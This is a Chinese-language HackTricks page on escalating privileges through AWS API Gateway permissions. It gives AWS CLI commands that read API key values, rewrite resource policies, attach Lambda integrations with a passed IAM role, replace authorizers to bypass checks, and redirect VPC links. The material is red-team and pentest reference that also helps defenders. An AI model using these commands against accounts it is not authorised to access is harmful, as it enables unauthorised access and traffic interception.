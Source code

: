 # AWS - Apigateway提权

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## Apigateway

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

拥有此权限，您可以为已配置的API生成API密钥（按区域）。
```bash
aws --region <region> apigateway create-api-key
```
**潜在影响：** 使用这种技术无法提升权限，但可能会访问到敏感信息。

### `apigateway:GET`

拥有此权限后，您可以获取配置的 API（按区域）生成的 API 密钥。
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**潜在影响：** 使用这种技术无法提升权限，但可能会获取对敏感信息的访问权限。

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

拥有这些权限后，可以修改 API 的资源策略，使自己能够调用它并滥用 API 网关可能具有的访问权限（比如调用一个存在漏洞的 Lambda 函数）。

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**潜在影响：** 通常情况下，您可能无法直接使用此技术进行权限提升，但可能会访问到敏感信息。

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
需要测试
{% endhint %}

拥有 `apigateway:PutIntegration`、`apigateway:CreateDeployment` 和 `iam:PassRole` 权限的攻击者可以**向现有 API Gateway REST API 添加一个具有附加 IAM 角色的 Lambda 函数的新集成**。攻击者随后可以**触发 Lambda 函数执行任意代码，并可能访问与 IAM 角色关联的资源**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：访问与Lambda函数的IAM角色关联的资源。

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
需要测试
{% endhint %}

拥有`apigateway:UpdateAuthorizer`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有的API Gateway授权者**，以绕过安全检查或在进行API请求时执行任意代码。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：绕过安全检查，未经授权访问 API 资源。

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
需要测试
{% endhint %}

拥有 `apigateway:UpdateVpcLink` 权限的攻击者可以**修改现有的 VPC 链接，将其指向不同的网络负载均衡器，从而可能将私有 API 流量重定向到未经授权或恶意资源**。
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**潜在影响**：未经授权访问私有 API 资源，拦截或干扰 API 流量。

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

其他支持 HackTricks 的方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** 上关注我们**。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
